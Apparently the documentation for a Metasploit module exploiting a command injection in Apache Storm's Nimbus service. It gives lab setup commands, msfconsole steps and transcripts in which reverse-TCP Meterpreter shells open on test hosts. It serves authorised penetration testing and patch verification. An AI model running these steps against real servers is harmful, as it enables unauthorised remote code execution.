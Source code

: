 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability within the Nimbus service
component of Apache Storm. The `getTopologyHistory()` RPC method method takes a single argument
which is the name of a user which is concatenated into a string that is executed by bash. In
order for the vulnerability to be exploitable, there must have been at least one topology
submitted to the server. The topology may be active or inactive, but at least one must be present.
Successful exploitation results in remote code execution as the user running Apache Storm.

This vulnerability was patched in versions 2.1.1, 2.2.1 and 1.2.4. This exploit was tested on version 2.2.0
which is affected.

## Verification Steps

1. Setup a minimal Storm cluster using the published docker images. The following steps were adapted from [Docker
  reference][1].
  * The following steps can be executed to start up a minimal Storm cluster, but requires the [Storm Starter][2] jar
    to exist in the current directory as `topology.jar`. Follow the steps on the [projects page][3] to build it with
    Maven. Storm Starter v2.4.0 was used for testing.

```
# 1. Start a ZooKeeper server:
docker run -d --rm --name some-zookeeper zookeeper
# 2. Start a Nimbus server:
docker run -p 6627:6627 -d --rm --name some-nimbus --link some-zookeeper:zookeeper \
  storm:2.2.0 storm nimbus
# 3. Start a Supervisor server:
docker run -d --rm --name supervisor1 --link some-zookeeper:zookeeper --link some-nimbus:nimbus \
  storm:2.2.0 storm supervisor
# 4. Submit a topology using Storm Starter:
docker run --rm --link some-nimbus:nimbus -it -v $(pwd)/topology.jar:/topology.jar \
  storm:2.2.0 storm jar /topology.jar \
  org.apache.storm.starter.ExclamationTopology exclamation
```
2. Start `msfconsole`
3. Do: `use exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec`
4. Set the module options
5. Do: `exploit`
6. You should get a shell

## Options

## Scenarios

### Debian 11.1 x64, Apache Storm v2.2.4 (From Docker)

```
msf > use exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set LHOST docker0
LHOST => docker0
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set LPORT 6677
LPORT => 6677
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > show options

Module options (exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   127.0.0.1        yes       The target host(s), see https://github.com/rapid7/
                                       metasploit-framework/wiki/Using-Metasploit
   RPORT    6627             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on.
                                       This must be an address on the local machine or 0.
                                       0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is rando
                                       mly generated)
   URIPATH                   no        The URI to use for this exploit (default is random
                                       )


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  6677             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > check
[*] 127.0.0.1:6627 - The target appears to be vulnerable. Successfully tested command injection.
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > exploit

[*] Started reverse TCP handler on 172.18.0.1:6677
[*] 127.0.0.1:6627 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:6627 - The target appears to be vulnerable. Successfully tested command injection.
[*] 127.0.0.1:6627 - Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 172.18.0.3
[*] 127.0.0.1:6627 - Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (172.18.0.1:6677 -> 172.18.0.3:49872 ) at 2021-11-18 16:59:00 -0600

meterpreter > sysinfo
Computer     : 172.18.0.3
OS           : Debian 11.1 (Linux 5.11.0-40-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: storm
meterpreter >
```

### Debian 11.1 x64, Apache Storm v2.2.0 (From Docker)

```
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set TARGET  1
TARGET => 1
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set PAYLOAD  linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > check
[*] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
msf exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.31:6627 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
[*] 192.168.159.31:6627 - Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.31
[*] 192.168.159.31:6627 - Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:51680 ) at 2021-11-12 14:45:37 -0500

meterpreter > getuid
Server username: storm
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Debian 11.1 (Linux 5.4.0-89-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://hub.docker.com/_/storm
[2]: https://github.com/apache/storm/tree/master/examples/storm-starter
[3]: https://github.com/apache/storm/tree/master/examples/storm-starter#build-and-install-storm-jars-locally
